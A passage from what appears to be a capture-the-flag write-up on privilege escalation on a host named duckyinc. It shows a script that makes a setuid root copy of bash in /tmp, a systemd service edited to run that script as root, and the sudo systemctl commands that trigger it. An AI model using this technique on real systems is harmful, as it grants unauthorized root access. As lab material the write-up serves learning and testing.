 ```
ExecReload=/bin/kill -s HUP $MAINPID
ExecStop=/bin/kill -s TERM $MAINPID

[Install]
WantedBy=multi-user.target
```

## Step 2
We need to create a script that will help us elevate our access.
> Chmod 4755 (chmod a+rwx,g-w,o-w,ug+s,+t,g-s,-t) sets permissions so that, (U)ser / owner can read, can write and can execute. (G)roup can read, can't write and can execute. (O)thers can read, can't write and can execute.
```
server-admin@duckyinc:~$ cat adminplox.sh 
#!/bin/bash

cp /bin/bash /tmp/bash && chmod 4755 /tmp/bash
server-admin@duckyinc:~$ chmod +x adminplox.sh
```

## Step 3
Update `/etc/systemd/system/duckyinc.service` so that it will execute our script.
```
server-admin@duckyinc:~$ cat /etc/systemd/system/duckyinc.service 
[Unit]
Description=Gunicorn instance to serve DuckyInc Webapp
After=network.target

[Service]
User=root
Group=root
WorkingDirectory=/var/www/duckyinc
ExecStart=/bin/bash /home/server-admin/adminplox.sh 
ExecReload=/bin/kill -s HUP $MAINPID
ExecStop=/bin/kill -s TERM $MAINPID

[Install]
WantedBy=multi-user.target
```
>Don't forget to change the User and Group values to `root` or else you'll end up with a `flask:www-data` shell.

## Step 4
Execute the `/bin/systemctl` commands available to us as sudo, then run the `shell` we have in `/tmp` with `-p` option
```
server-admin@duckyinc:~$ sudo /bin/systemctl daemon-reload
server-admin@duckyinc:~$ sudo /bin/systemctl enable duckyinc.service
server-admin@duckyinc:~$ sudo /bin/systemctl restart duckyinc.service
server-admin@duckyinc:~$ ls -la /tmp
total 1124
drwxrwxrwt  9 root root    4096 Oct 19 20:01 .
drwxr-xr-x 24 root root    4096 Aug  9 15:17 ..
-rwsr-xr-x  1 root root 1113504 Oct 19 20:01 bash
drwxrwxrwt  2 root root    4096 Oct 19 19:59 .font-unix
drwxrwxrwt  2 root root    4096 Oct 19 19:59 .ICE-unix
drwx------  3 root root    4096 Oct 19 19:59 systemd-private-89c294b1e88d467cbaf80b86775f6531-systemd-resolved.service-EG7iwK
drwx------  3 root root    4096 Oct 19 19:59 systemd-private-89c294b1e88d467cbaf80b86775f6531-systemd-timesyncd.service-hCnhfo
drwxrwxrwt  2 root root    4096 Oct 19 19:59 .Test-unix
drwxrwxrwt  2 root root    4096 Oct 19 19:59 .X11-unix
```